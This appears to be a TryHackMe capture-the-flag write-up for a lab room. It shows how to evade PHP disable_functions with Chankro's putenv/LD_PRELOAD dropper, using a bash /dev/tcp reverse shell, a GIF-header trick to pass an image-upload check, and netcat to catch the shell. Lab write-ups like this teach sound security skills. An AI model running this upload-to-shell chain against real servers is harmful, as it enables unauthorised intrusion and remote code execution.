


# Bypass Disable Functions

- [Room information](#room-information)
- [Solution](#solution)
- [References](#references)

## Room information

```text
Type: Challenge
Difficulty: Info
OS: Linux
Subscription type: Free
Description: 
Practice bypassing disabled dangerous features that run operating system commands or start processes.
```

Room link: [https://tryhackme.com/room/bypassdisablefunctions](https://tryhackme.com/room/bypassdisablefunctions)

## Solution

### Task 1 - Introduction

#### What is a file upload vulnerability?

This vulnerability occurs in web applications where there is the possibility of uploading a file without being checked by a security system that curbs potential dangers.

It allows an attacker to upload files with code (scripts such as .php, .aspx and more) and run them on the same server, more information in [this room](https://tryhackme.com/room/uploadvulns).

#### Why this room?

Among the typically applied measures is disabling dangerous functions that could execute operating system commands or start processes. Functions such as `system()` or `shell_exec()` are often disabled through PHP directives defined in the `php.ini` configuration file. Other functions, perhaps less known as `dl()` (which allows you to load a PHP extension dynamically), can go unnoticed by the system administrator and not be disabled. The usual thing in an intrusion test is to list which functions are enabled in case any have been forgotten.

One of the easiest techniques to implement and not very widespread is to abuse the `mail()` and `putenv()` functionalities. This technique is not new, it was already reported to [PHP in 2008](https://bugs.php.net/bug.php?id=46741) by gat3way, but it still works to this day. Through the `putenv()` function, we can modify the environment variables, allowing us to assign the value we want to the variable `LD_PRELOAD`. Roughly `LD_PRELOAD` will allow us to pre-load a `.so` library before the rest of the libraries, so that if a program uses a function of a library (`libc.so` for example), it will execute the one in our library instead of the one it should. In this way, we can hijack or "hook" functions, modifying their behaviour at will.

#### Chankro: tool to evade disable_functions and open_basedir

Through [Chankro](https://github.com/TarlogicSecurity/Chankro), we generate a PHP script that will act as a dropper, creating on the server a `.so` library and the binary (a meterpreter, for example) or bash script (reverse shell, for example) that we want to execute freely, and that will later call `putenv()` and `mail()` to launch the process.

Install tool:

```bash
git clone https://github.com/TarlogicSecurity/Chankro.git
cd Chankro
python2 chankro.py --help
```

Running tool:

`python chankro.py --arch 64 --input c.sh --output tryhackme.php --path /var/www/html`

--arch = Architecture of system victim 32 o 64.
--input = file with your payload to execute
--output = Name of the PHP file you are going to create; this is the file you will need to upload.
--path = It is necessary to specify the absolute path where our uploaded PHP file is located. For example, if our file is located in the uploads folder DOCUMENTROOT + uploads.



Now, when executing the PHP script in the web server, the necessary files will be created to execute our payload.



My command run successfully, and I created a file in the directory with the output of the command.

#### Credits

All credit goes to [Tarlogic](https://www.tarlogic.com/blog/evadir-disable_functions-open_basedir/) for the script and explaining the method of the bypass.

### Task 2 - Ready, Set, Go

#### Chankro installation

We start by installing the Chankro tool

```bash
┌──(kali㉿kali)-[~]
└─$ cd Tools 

┌──(kali㉿kali)-[~/Tools]
└─$ git clone https://github.com/TarlogicSecurity/Chankro.git
Cloning into 'Chankro'...
remote: Enumerating objects: 59, done.
remote: Total 59 (delta 0), reused 0 (delta 0), pack-reused 59 (from 1)
Receiving objects: 100% (59/59), 35.91 KiB | 1.44 MiB/s, done.
Resolving deltas: 100% (26/26), done.

┌──(kali㉿kali)-[~/Tools]
└─$ cd Chankro   

┌──(kali㉿kali)-[~/Tools/Chankro]
└─$ python2 chankro.py -h
usage: chankro.py [-h] [--arch ARCH] [--input METER] [--output OUT]
                  [--path PATI]

Generate PHP backdoor

optional arguments:
  -h, --help     show this help message and exit
  --arch ARCH    Architecture (32 or 64)
  --input METER  Binary to be executed (p.e. meterpreter)
  --output OUT   PHP filename
  --path PATI    Absolute path
```

#### Scan for services with nmap

Next, we scan the machine on all ports with `nmap` including service info and default scripts

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ export TARGET_IP=10.10.157.138                                                                 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ sudo nmap -sV -sC -p- $TARGET_IP
[sudo] password for kali: 
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-05 09:27 CEST
Nmap scan report for 10.10.157.138
Host is up (0.043s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 1f:97:54:30:24:74:f2:fa:15:ed:f3:35:84:dc:6c:d0 (RSA)
|   256 a7:21:78:6d:a6:05:7e:5a:0f:7e:53:65:0a:c4:53:49 (ECDSA)
|_  256 57:1c:22:ac:59:69:62:cb:94:bd:e9:9f:67:68:23:c9 (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Ecorp - Jobs
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.95 seconds
```

We have three services running:

- OpenSSH 7.2p2 on port 22
- Apache httpd 2.4.18 on port 80

#### Check the web site

Browsing manually to port 80 shows a recruting web site


Under `Apply Job` we have a possibility to upload files (CVs).

If we access `http://10.10.157.138/phpinfo.php` we can find the root directory

```text
Apache Environment
<---snip--->
DOCUMENT_ROOT            /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
REQUEST_SCHEME           http
CONTEXT_PREFIX           no value
CONTEXT_DOCUMENT_ROOT    /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db
SERVER_ADMIN             webmaster@localhost
SCRIPT_FILENAME          /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/phpinfo.php 
<---snip--->
```

#### Create a reverse shell

We prepare a reverse shell

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ vi revshell.sh  

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ cat revshell.sh         
#!/bin/bash
bash -i >& /dev/tcp/10.14.61.233/12345 0>&1
```

#### Create a PHP file with Chankro

Then we use Chankro to create a PHP file to upload

```bash
┌──(kali㉿kali)-[~/Tools/Chankro]
└─$ python2 chankro.py --arch 64 --input /mnt/hgfs/Wargames/TryHackMe/Challenges/Info/Bypass_Disable_Functions/revshell.sh --output /mnt/hgfs/Wargames/TryHackMe/Challenges/Info/Bypass_Disable_Functions/tryhackme.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db

     -=[ Chankro ]=-
    -={ @TheXC3LL }=-

[+] Binary file: /mnt/hgfs/Wargames/TryHackMe/Challenges/Info/Bypass_Disable_Functions/revshell.sh
[+] Architecture: x64
[+] Final PHP: /mnt/hgfs/Wargames/TryHackMe/Challenges/Info/Bypass_Disable_Functions/tryhackme.php

[+] File created!
```

#### Try to upload the Chankro file

Now we can try to upload the file.

However, this fails with the error message `Upload a real image`.

The header also says `Send your cv in image format` so we need some kind of image.

#### Create a new file with GIF-header

We will try to bypass this check by adding a GIF-header

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ echo 'GIF89a;' > tryhackme2.php                                                                                            

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ cat tryhackme.php >> tryhackme2.php 

┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ file tryhackme2.php 
tryhackme2.php: GIF image data, version 89a, 2619 x 16188
```

Now we have a file the looks like an image file.

Let's try to upload it.

#### Upload the new PHP file

We upload the new file and this succeeds. The result is `OK`.

But were was the file uploaded? The standard directory is `/uploads`.

And browsing to `http://10.10.157.138/uploads/` confirms that this is the case.

#### Start a netcat listener

Before triggering the PHP-file we start a netcat listener

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ nc -lvnp 12345
listening on [any] 12345 ...

```

#### Trigger the PHP-file

We trigger the PHP-file with curl

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ curl http://10.10.157.138/uploads/tryhackme2.php    
GIF89a;
```

Checking back at our netcat listener we have a connection

```bash
┌──(kali㉿kali)-[/mnt/…/TryHackMe/Challenges/Info/Bypass_Disable_Functions]
└─$ nc -lvnp 12345
listening on [any] 12345 ...
connect to [10.14.61.233] from (UNKNOWN) [10.10.157.138] 37432
bash: cannot set terminal process group (748): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ 
```

#### Get the flag

Finally, we search for the flag with `find`

```bash
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ find / -name [Ff]lag.txt 2>/dev/null
<f518e00db/uploads$ find / -name [Ff]lag.txt 2>/dev/null                     
/home/s4vi/flag.txt
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ cat /home/s4vi/flag.txt
<ml/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ cat /home/s4vi/flag.txt        
thm{<REDACTED>}
www-data@ubuntu:/var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db/uploads$ 
```

For additional information, please see the references below.

## References

- [Chankro - GitHub](https://github.com/TarlogicSecurity/Chankro)
- [curl - Homepage](https://curl.se/)
- [curl - Linux manual page](https://man7.org/linux/man-pages/man1/curl.1.html)
- [dl function - PHP Manual](https://www.php.net/manual/en/function.dl.php)
- [File upload vulnerabilities - PortSwigger](https://portswigger.net/web-security/file-upload)
- [find - Linux manual page](https://man7.org/linux/man-pages/man1/find.1.html)
- [List of file signatures - Wikipedia](https://en.wikipedia.org/wiki/List_of_file_signatures)
- [nc - Linux manual page](https://linux.die.net/man/1/nc)
- [netcat - Wikipedia](https://en.wikipedia.org/wiki/Netcat)
- [nmap - Homepage](https://nmap.org/)
- [nmap - Linux manual page](https://linux.die.net/man/1/nmap)
- [nmap - Manual page](https://nmap.org/book/man.html)
- [PHP - Wikipedia](https://en.wikipedia.org/wiki/PHP)
- [putenv function - PHP Manual](https://www.php.net/manual/en/function.putenv.php)
- [shell_exec function - PHP Manual](https://www.php.net/manual/en/function.shell-exec.php)
- [system function - PHP Manual](https://www.php.net/manual/en/function.system.php)
- [Unrestricted File Upload - OWASP](https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload)
